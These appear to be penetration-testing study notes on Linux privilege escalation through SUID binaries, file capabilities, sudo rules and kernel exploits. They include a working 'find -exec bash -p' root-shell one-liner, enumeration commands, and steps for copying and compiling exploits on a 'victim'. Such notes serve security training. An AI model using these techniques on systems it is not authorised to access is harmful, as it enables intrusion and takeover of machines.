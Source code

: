 

### Abusing Setuid and Capabilities

##### SUID

`ps u -C <binary running>` - we can get the PID of a running process for inspection purposes to show how uids work

`grep Uid /proc/<PID>/status` - inspect the real id, UID and eUID (0 = root)

`ls -asl` list the permissions - look for the S/s

`chmod u+s <filename>` - set the suid bit on the file

`If we find a file that has the suid bit set, and for some reason it is misconfigured we could use this binary to execute privileges`

for example if `find` was misconfigured we could:

`find /home/user/Desktop -exec "/usr/bin/bash" -p \;` - which will run find and give us an elevated shell because the suid bit is set, effectively making us root through the eUID.

##### Capabilities

Capabilities are extra attributes that can be applied to processes, binaries and services to assign specific privileges. These privileges are usually used for admin operations.

If these binaries are misconfigured they could also lead to privesc to root.

`/usr/sbin/getcap -r / 2>/dev/null` - enumerate the system for binaries with capabilities

example output:

```
/usr/bin/perl = cap_setuid+ep  -> has setuid capabilities and +ep set (effective and permitted)
/usr/bin/perl5.28.1 = cap_setuid+ep  -> same here
```

`When we find a binary with capabilties like this we should check GTFObins for a way to exploit it`

### Abusing Sudo


Custom configuration to sudo is added to the /etc/sudoers file. We can use `sudo -l`  to list these.

Sudo essentially changes the eUID of the user executing the command.

If we find a sudo capability when inspecting the sudoers file we should research it on GTFObins for an easy escalation method - though this may not always work, don't die here.

`cat /var/log/syslog  | grep <binary we tried to exploit>` If we are denied in the process we can investigate the syslog file, we may notice that it was an auditing daemon that prevented us.

If we have root access at some point we may be able to view how this command was protected.


### Exploiting Kernel Vulnerabilities

First we need to run some enumeration to get relative information

`cat /etc/issue && cat /etc/os-release && uname -r && arch` - get system information

`searchsploit <information obtained>` - use grep as well to filter out some clutter if needed

grab a suitable exploit, inspect it, and execute if valid. `for exploits that need to be compiled if possible compile the code on the target so compilation and exploitation can run as smooth as possible`.

`scp <file_name> user@ip:` - transfer the file using scp to the victim 

`file <binary>` - double check compilation ELF info for correct arch, etc.

